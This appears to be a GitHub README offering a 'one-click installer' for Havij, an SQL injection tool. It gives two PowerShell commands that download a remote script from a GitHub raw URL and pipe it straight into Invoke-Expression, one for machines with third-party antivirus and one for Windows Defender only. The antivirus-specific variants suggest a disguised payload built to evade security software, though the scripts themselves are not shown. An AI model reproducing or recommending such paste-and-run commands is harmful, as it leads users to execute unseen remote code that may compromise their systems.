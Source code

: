 ## 🛠 Havij One-Click Installer (PowerShell)

Please read the instructions below carefully and run the command that matches your system setup.

---

### ⚠️ Instructions:

- If you have **any third-party antivirus software** installed (e.g., Avast, Kaspersky, Bitdefender, etc.), run the **first command**.
- If you have **only Windows Defender** and no other antivirus installed, run the **second command**.

---

```powershell
# 👉 If you have antivirus software installed, run this command:
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex

# 👉 If you only have Windows Defender, run this command:
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex
